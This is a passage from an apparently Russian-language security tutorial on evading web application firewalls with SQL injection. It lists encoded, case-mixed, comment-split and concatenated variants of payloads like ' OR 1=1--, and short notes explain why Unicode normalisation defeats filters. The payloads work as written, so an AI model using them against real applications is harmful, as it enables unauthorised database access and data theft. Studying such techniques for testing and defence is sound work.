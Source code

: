 ```sql
-- URL encoding
%27%20OR%201%3D1--

-- Double URL encoding
%2527%2520OR%25201%253D1--

-- Hex encoding
0x27204f5220313d312d2d

-- Внедрение hex в запрос
SELECT * FROM users WHERE username=0x61646d696e -- 'admin'

-- Unicode normalization
ʻ OR 1=1--  →  ' OR 1=1--

-- Base64 (если приложение декодирует)
JyBPUiAxPTEtLQ==
```

**Механизм Unicode normalization:**
- Некоторые системы нормализуют Unicode-символы
- `ʻ` (U+02BB) и `ʼ` (U+02BC) могут нормализоваться в обычную кавычку `'`
- WAF видит "безопасные" Unicode-символы, но после нормализации получается SQL-инъекция

**Char() функции:**
```sql
-- MySQL
' OR '1'='1' → CHAR(39,32,79,82,32,49,61,49)

-- SQL Server
' OR 1=1--' → CHAR(39)+CHAR(32)+CHAR(79)+CHAR(82)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)

-- PostgreSQL
SELECT CHR(97)||CHR(100)||CHR(109)||CHR(105)||CHR(110) -- 'admin'
```

**Символьные ссылки** (**Использование альтернативных представлений одного и того же символа** через разные нотации или escape-последовательности)**:**
``` sql
-- Вместо обычной кавычки '
' OR 1=1--  →  &#39; OR 1=1--
' OR 1=1--  →  &apos; OR 1=1--
' OR 1=1--  →  %27 OR 1=1--
' OR 1=1--  →  \' OR 1=1--     /* PHP, JavaScript */
' OR 1=1--  →  '' OR 1=1--     /* SQL (удвоение кавычек) */
```

#### **2) Изменение регистра и разделение ключевых слов**

```sql
-- Смешанный регистр
SeLeCt * FrOm uSeRs

-- Разделение комментариями
SEL/**/ECT * FR/**/OM USERS

-- Вставка пробелов разных типов
SEL%09ECT *%0DFROM%0CUSERS

-- Использование строк и строковой конкатенации
' OR 1=1 → ' OR '1'='1'
' UNI' 'ON SEL' 'ECT 1,2,3--' -- Вместо: UNION SELECT
' OR 1=1--' → ' OR ' '1' '=' '1' '--' -- Использование CONCAT()
' UNION SELECT @@version--' → ' UNI' + 'ON SEL' + 'ECT CONCAT(@@version)' 

-- Oracle, PostgreSQL -- Конкатенация через ||
```